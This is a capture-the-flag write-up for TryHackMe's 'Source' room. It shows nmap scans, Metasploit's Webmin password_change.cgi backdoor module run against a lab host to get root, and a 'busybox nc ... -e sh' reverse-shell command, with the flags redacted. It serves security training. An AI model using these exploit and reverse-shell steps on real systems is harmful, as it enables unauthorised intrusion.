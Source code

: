 ```yaml
---
title: "Source"
date: 2025-01-25
image: /assets/img/tryhackme/Source/Source_image.jpg
description: Writeup of the TryHackMe-CTF Source
categories: [Tryhackme, Easy]
tags: [linux, webmin, exploit, metasploit]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Source</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/source">https://tryhackme.com/r/room/source</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution to the CTF challenge Source.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.117.181
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-25 08:23 EST
  Nmap scan report for 10.10.117.181
  Host is up (0.043s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT      STATE SERVICE
  22/tcp    open  ssh
  10000/tcp open  snet-sensor-mgmt

  Nmap done: 1 IP address (1 host up) scanned in 35.07 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,10000 10.10.117.181
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-25 08:24 EST
  Nmap scan report for 10.10.117.181
  Host is up (0.035s latency).

  PORT      STATE SERVICE VERSION
  22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
  |   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
  |_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
  10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
  |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 36.59 seconds
```
From here I proceeded the analysis with port 10000.

## Port 10000 Analysis
When I first accessed the website I got the following error:

![Error](/assets/img/tryhackme/Source/thm_source_1.jpg){: width="1016" height="103"}

I added the domain name in the `etc/hosts` file and a Webmin portal was presented:

![Webmin](/assets/img/tryhackme/Source/thm_source_2.jpg){: width="318" height="354"}

After some inital enumeration I serarched for an exploit and found an <a href="https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection?referrer=search">attackerkb</a> entry. In the last comment stands something about metasploit.

```bash
msf6 > search webmin

Matching Modules
================

   #   Name                                           Disclosure Date  Rank       Check  Description
   -   ----                                           ---------------  ----       -----  -----------
   0   exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1   auxiliary/admin/webmin/file_disclosure         2006-06-30       normal     No     Webmin File Disclosure
   2   exploit/linux/http/webmin_file_manager_rce     2022-02-26       excellent  Yes    Webmin File Manager RCE
   3   exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
   4     \_ target: Unix In-Memory                    .                .          .      .
   5     \_ target: Linux Dropper (x86 & x64)         .                .          .      .
   6     \_ target: Linux Dropper (ARM64)             .                .          .      .
   7   exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   8   exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   9   auxiliary/admin/webmin/edit_html_fileaccess    2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   10  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   11    \_ target: Automatic (Unix In-Memory)        .                .          .      .
   12    \_ target: Automatic (Linux Dropper)         .                .          .      .
```
The backdoor exploit sounds great, so I loaded the `Webmin password_change.cgi Backdoor`:
```bash
msf6 > use exploit/linux/http/webmin_backdoor
msf6 exploit(linux/http/webmin_backdoor) > set lhost 10.21.63.26
  lhost => [attacker ip]
msf6 exploit(linux/http/webmin_backdoor) > set rhosts 10.10.117.181
  rhosts => 10.10.117.181
msf6 exploit(linux/http/webmin_backdoor) > set ssl true
  [!] Changing the SSL option's value may require changing RPORT!
  ssl => true
msf6 exploit(linux/http/webmin_backdoor) > exploit

  [*] Started reverse TCP handler on 10.21.63.26:4444 
  [*] Running automatic check ("set AutoCheck false" to disable)
  [+] The target is vulnerable.
  [*] Configuring Automatic (Unix In-Memory) target
  [*] Sending cmd/unix/reverse_perl command payload
  [*] Command shell session 1 opened (10.21.63.26:4444 -> 10.10.117.181:48376) at 2025-01-25 08:43:09 -0500
  
  whoami
  root
  busybox nc [attacker ip] 9001 -e sh 
```
I wasn't able to change the directory from the shell so I started a reverse shell using `busybox`:
```bash
cd /root
	cat root.txt
	THM{*** removed ***}
cd /home
ls
	dark
cd dark
cat user.txt
	THM{*** removed ***}
```

solved! :)
